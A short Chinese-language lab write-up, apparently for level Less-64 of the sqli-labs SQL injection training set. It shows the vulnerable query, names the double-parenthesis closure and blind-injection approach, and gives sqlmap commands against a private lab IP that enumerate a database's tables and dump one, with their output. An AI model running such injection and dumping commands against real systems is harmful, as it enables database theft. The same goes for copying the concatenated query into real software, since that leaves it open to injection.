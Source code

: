 ```yaml
---
title: less64
url: https://www.yuque.com/u29002979/ep2zrx/gbtp88mubuaqcaoy
---
```


```bash
$sql="SELECT * FROM security.users WHERE id=(($id)) LIMIT 0,1";
```

此关的闭合方式为双括号))，还是盲注的问题

<a name="tTcqx"></a>

# sqlmap

`sqlmap -u http://192.168.31.193/Less-64/?id=1 -D challenges --tables`

> 1wo4hyndr5

`sqlmap -u http://192.168.31.193/Less-64/?id=1 -D challenges -T 1wo4hyndr5 --dump`

> k0Kx2B7urBqzcrJ5uwEoMcEI
